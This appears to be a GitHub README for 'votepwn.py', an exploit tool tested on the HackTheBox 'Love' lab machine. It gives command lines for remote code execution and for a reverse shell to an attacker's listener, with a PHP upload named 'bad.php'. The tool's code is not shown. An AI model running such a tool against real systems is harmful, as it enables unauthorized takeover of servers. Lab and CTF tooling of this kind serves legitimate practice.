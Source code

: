 ## Usage
- Remote code execution
```bash
python3 votepwn.py -rce -u <username> -p <password> 
```
- Reverse shell
```bash
python3 votepwn.py -rs -u <username> -p <password> -lh <lhost> -lp <lport>
```
**Notes:**

Filename is 'bad.php' by default, can be changed with -file/--filename <name>

Listen port is 4444 by default

## Testing
These tests were made in HackTheBox - Love (Easy) 
- **Remote code execution**  

![A gif goes here](https://media.giphy.com/media/D5lnkh2ImOIQVjluM1/giphy.gif)
- **Reverse shell**  

![A gif goes here](https://media.giphy.com/media/YcJUBgmKhPD4mvM2HK/giphy.gif)
